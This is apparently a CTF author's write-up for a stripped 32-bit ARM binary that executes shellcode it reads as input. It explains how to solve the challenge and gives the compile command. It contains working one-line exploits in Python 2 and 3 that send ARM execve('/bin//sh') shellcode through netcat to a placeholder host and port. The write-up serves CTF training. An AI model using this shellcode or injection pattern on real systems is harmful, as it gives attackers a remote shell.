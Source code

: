 The given challenge binary's architecture is **32-bit ARM** running on an Ubuntu x86-64 docker. The docker container needs some preinstalled tools to run the binary properly which I've included in Dockerfile. Participants have to find a suitable **shellcode** to give as input to the program which will be directly executed. Before the shellcode can be given as input, two questions will be asked about the architecture. Answer to these questions can be easily found just by looking at the decompiled binary in Ghidra.
To make reading of the binary in Ghidra difficult, symbols have been stripped so that function names are not visible. But keen eyes would easily understand that the challenge requires direct shellcode input and upon successful execution a shell will be returned through which `flag.txt` can be read. Added some story to make the challenge a bit more interesting to interact :)
Participants can either use pwntools or a one line exploit can also be written like following:

(Final payload using Python 2)
```bash
(python -c 'print "ARM\n32-bit\n\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x78\x46\x0e\x30\x01\x90\x49\x1a\x92\x1a\x08\x27\xc2\x51\x03\x37\x01\xdf\x2f\x62\x69\x6e\x2f\x2f\x73\x68"'; cat) | nc <ip> <port>
```
(Final payload using Python 3)
```bash
(python3 -c 'import sys; sys.stdout.buffer.write(b"ARM\n32-bit\n\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x78\x46\x0e\x30\x01\x90\x49\x1a\x92\x1a\x08\x27\xc2\x51\x03\x37\x01\xdf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\n")'; cat) | nc <ip> <port>
```
Compiled with `arm-linux-gnueabihf-gcc -s -static -o chal chal.c`. `-s` is for stripping symbols to make reading in Ghidra a bit difficult :)
